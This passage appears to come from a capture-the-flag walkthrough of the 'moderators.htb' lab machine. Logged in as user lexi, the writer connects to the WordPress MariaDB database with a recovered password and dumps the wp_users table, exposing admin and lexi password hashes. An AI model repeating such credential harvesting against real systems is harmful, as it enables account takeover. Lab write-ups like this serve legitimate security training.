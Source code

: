 Look if there are any users in the SQL Database:
```bash
lexi@moderators:/opt/site.new$ mysql -u wordpressuser -p
Enter password: wordpresspassword123!!
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 40
Server version: 10.3.34-MariaDB-0ubuntu0.20.04.1 Ubuntu 20.04

MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| wordpress          |
+--------------------+
2 rows in set (0.001 sec)

MariaDB [(none)]> use wordpress;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [wordpress]> show tables;
+----------------------------+
| Tables_in_wordpress        |
+----------------------------+
| wp_commentmeta             |
| wp_comments                |
| wp_links                   |
| wp_options                 |
| wp_pms_category            |
| wp_pms_passwords           |
| wp_postmeta                |
| wp_posts                   |
| wp_prflxtrflds_fields_meta |
| wp_term_relationships      |
| wp_term_taxonomy           |
| wp_termmeta                |
| wp_terms                   |
| wp_usermeta                |
| wp_users                   |
| wp_wpfm_backup             |
+----------------------------+
16 rows in set (0.000 sec)

MariaDB [wordpress]> select * from wp_users;
+----+------------+------------------------------------+---------------+----------------------+-------------------------+---------------------+---------------------+-------------+--------------+
| ID | user_login | user_pass                          | user_nicename | user_email           | user_url                | user_registered     | user_activation_key | user_status | display_name |
+----+------------+------------------------------------+---------------+----------------------+-------------------------+---------------------+---------------------+-------------+--------------+
|  1 | admin      | $P$BXasOiM52pOUIRntJTPVlMoH0ZlntT0 | admin         | admin@moderators.htb | http://192.168.1.4:8080 | 2021-09-11 05:30:20 |                     |           0 | admin        |
|  2 | lexi       | $P$BZ0Fj92qgnvg4F52r3lpwHejcXag461 | lexi          | lexi@moderators.htb  |                         | 2021-09-12 16:51:16 |                     |           0 | lexi         |
+----+------------+------------------------------------+---------------+----------------------+-------------------------+---------------------+---------------------+-------------+--------------+
```
